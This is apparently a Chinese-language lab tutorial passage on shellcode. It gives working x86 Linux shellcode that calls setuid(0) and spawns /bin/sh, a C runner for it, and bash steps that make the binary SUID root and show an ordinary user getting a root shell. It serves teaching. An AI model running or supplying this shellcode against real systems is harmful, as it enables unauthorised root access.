 ```c
 * 8049398:       52                      push   %edx
 * 8049399:       53                      push   %ebx
 * 804939a:       89 e1                   mov    %esp,%ecx
 * 804939c:       cd 80                   int    $0x80
 */

char sc[] = /* 7 + 23 = 30 bytes */
"\x6a\x17\x58\x31\xdb\xcd\x80"
"\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80";

main()
{
	int (*f)() = (int (*)())sc; f();
}
```

shellcode是一段用于利用软件漏洞而执行的代码，shellcode为16进制的机器码，因为经常让攻击者获得shell而得名。shellcode常常使用机器语言编写。 可在暂存器eip溢出后，塞入一段可让CPU执行的shellcode机器码，让电脑可以执行攻击者的任意指令。

"\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80"就是一个Shellcode。执行的就是代码注释中setuid(0)、execve("/bin//sh", ["/bin//sh"], NULL)的意思。即先赋予进程SUID权限，再进入bin//sh后，拿着root权限为所欲为。

如，`push $0x17`将setuid入栈，`pop %eax`，命令弹出放入ax寄存器，`xor %ebx,%ebx`，bx自己和自己异或得0，`int $0x80`，检查ax调用相应命令，参数为bx中值，这样就成功获得SUID权限。

Shellcode 根据不同的任务可能是发出一条系统调用或建立一个高权限的 Shell， Shellcode 也就由此得名。不同数据对数据要求不同，因此，Shellcode 也不一定相同。

```bash
gcc -z execstack -o setuid_linux setuid_linux.c
sudo chown root setuid_linux
sudo chmod 4755 setuid_linux

./setuid_linux
whoami
id
```

![image-20220321104157387](FormatStringShellcode/image-20220321104157387.png)

可见，普通用户获得了 root shell。

5、阅读
https://www.exploit-db.com/exploits/36858
https://www.exploit-db.com/shellcodes/44321
